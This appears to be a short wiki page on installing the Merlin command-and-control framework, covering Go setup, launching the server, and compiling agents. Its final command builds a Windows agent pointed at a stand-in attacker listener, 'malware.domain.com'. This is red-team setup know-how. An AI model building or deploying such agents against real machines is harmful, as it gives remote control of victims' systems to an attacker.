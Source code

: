 ```yaml
---
description: https://github.com/Ne0nd0g/merlin
---
```


# Merlin

## Installation

### Install GO

```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

### Install Merlin

```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

## Launch Merlin Server

```
go run cmd/merlinserver/main.go -i
```

## Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

### Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
